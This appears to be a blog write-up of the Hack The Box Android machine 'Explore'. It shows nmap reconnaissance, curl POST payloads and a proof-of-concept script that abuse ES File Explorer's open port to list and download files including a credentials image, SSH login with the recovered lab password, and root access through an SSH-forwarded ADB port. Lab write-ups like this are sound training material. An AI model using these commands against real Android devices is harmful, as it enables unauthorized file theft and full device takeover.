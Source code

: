 +++
date = '2021-10-30'
title = 'HTB Machine Explore'
author = "Javier Olmedo"
+++

[![Hack The Box - Machine - Explore](/images/htb-machine-explore/htb-machine-explore_banner.png)](/images/htb-machine-explore/htb-machine-explore_banner.png)


Welcome to the writeup of the **explore machine** of the Hack The Box platform. Explore is an **easy** difficulty machine on android.

# Before starting
Connect to **Hack The Box VPN** in background with `TMUX`
```bash
tmux new -s htb
sudo openvpn ~/.vpn/htb.ovpn
```

**Add** machine to `/etc/hosts` file, **check connection** with `ping` and **create work folders**
```bash
echo '10.10.10.247 explore.htb' >> /etc/hosts
ping -c 4 explore.htb
mkdir -p ~/htb/explorer.htb/{exploits,fuzz,http,nmap}
```

# Recon
Check **all open ports**, detect the service and its version with `nmap`
```bash
nmap -sC -sV -p- -T4 --min-rate=1000 -v -oA all explore.htb
```
```nmap
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.048s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
44347/tcp open     unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=10/30%Time=617D2253%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port44347-TCP:V=7.92%I=7%D=10/30%Time=617D2252%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2
SF:030\x20Oct\x202021\x2011:00:48\x20GMT\r\nContent-Length:\x2022\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n
SF:\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412
SF:\x20Precondition\x20Failed\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:
SF:00:48\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1
SF:\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Sat,\x2030\x20Oct\x202021\
SF:x2011:00:53\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x
SF:20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:00:53\x20GMT\r\nCon
SF:tent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\
SF:r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version
SF::\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:
SF:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionRe
SF:q,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2030\x20Oct\
SF:x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x2
SF:0text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid
SF:\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\
SF:?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalS
SF:erverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x20
SF:30\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2054\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mst
SF:shash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Date:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length
SF::\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnecti
SF:on:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\
SF:0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone
```

[![](/images/htb-machine-explore/htb-machine-explore_nmap.png)](/images/htb-machine-explore/htb-machine-explore_nmap.png)

Open firefox to inspect website
```bash
firefox http://explore.htb:59777 &
```

[![](/images/htb-machine-explore/htb-machine-explore_001.png)](/images/htb-machine-explore/htb-machine-explore_001.png)

Nothing interesting 😥, let's look for information....

On port **42135** is running **ES File Explorer**, a public vulnerability that I was already testing the PoC of [fs0c131y's Github](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), I could see that [JSONAPI](https://github.com/alecgorge/jsonapi) is a Bukkit add-on, which allows to consume an API, maybe they can be related.

By reading the README.md from the repository, you can generate a payload to test the vulnerability.

```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"getDeviceInfo"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_002.png)](/images/htb-machine-explore/htb-machine-explore_002.png)

[![](/images/others/anthony_adams_rubbing_hands.jpg)](/images/others/anthony_adams_rubbing_hands.jpg)

After searching for interesting files, I found an image with the credentials of the user `kriti` located in the `/storage/emulated/0/DCIM/creds.jpg` folder.
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_003.png)](/images/htb-machine-explore/htb-machine-explore_003.png)

To get `creds.jpg` use this command:
```txt
python exploit_ESFileExplorer.py --get-file /storage/emulated/0/DCIM/creds.jpg --host explore.htb
```

[![](/images/htb-machine-explore/htb-machine-explore_004.png)](/images/htb-machine-explore/htb-machine-explore_004.png)

[![](/images/htb-machine-explore/htb-machine-explore_005.png)](/images/htb-machine-explore/htb-machine-explore_005.png)

Credentials
```txt
kristi:Kr1sT!5h@Rp3xPl0r3!
```

# Gain Access
SSH service is running on port `2222`, connect with the credentials and show `user.txt` flag
```bash
ssh -p 2222 kristi@explore.htb
cat /sdcard/user.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_user.png)](/images/htb-machine-explore/htb-machine-explore_user.png)

# Privilege Escalation
Checking the network connections, we observe that port `5555` is listening, this port is used by default by `ADB` (Android Debug Bridge).
```bash
netstat -nlpt
```

[![](/images/htb-machine-explore/htb-machine-explore_006.png)](/images/htb-machine-explore/htb-machine-explore_006.png)

So lets try to port **forward** it through ssh and try to connect it through our box
```bash
ssh -p 2222 kristi@explore.htb -L 5555:localhost:5555
```

Use `adb` to get root access, find flag and show.
```bash
adb -s localhost:5555 root
```
```bash
adb -s localhost:5555 shell
```
```bash
find / -name "root.txt" 2>/dev/null
```
```bash
cat /data/root.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_root.png)](/images/htb-machine-explore/htb-machine-explore_root.png)

[![](/images/others/boom.gif)](/images/others/boom.gif)
